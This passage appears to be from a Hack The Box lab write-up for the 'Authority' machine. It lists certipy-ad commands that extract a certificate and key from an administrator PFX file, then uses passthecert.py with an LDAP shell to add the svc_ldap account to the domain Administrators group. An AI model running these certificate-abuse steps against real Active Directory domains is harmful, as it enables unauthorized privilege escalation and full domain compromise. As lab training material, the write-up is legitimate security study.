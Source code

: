 ```bash
certipy-ad cert -pfx administrator_authority.pfx -nokey -out user.crt
certipy-ad cert -pfx administrator_authority.pfx -nocert -out user.key
```

![Alt text](<../../../assets/images/HTBPics/Pasted image 20231107002827.png>)

- 1st way :

We can add our user to the Administrators group and BOOM we compromised the machine :

```bash
python3 passthecert.py -action ldap-shell -crt user.crt -key user.key -domain authority.htb -dc-ip 10.10.11.222

add_user_to_group svc_ldap Administrators
```

![Alt text](<../../../assets/images/HTBPics/Pasted image 20231107003103.png>)
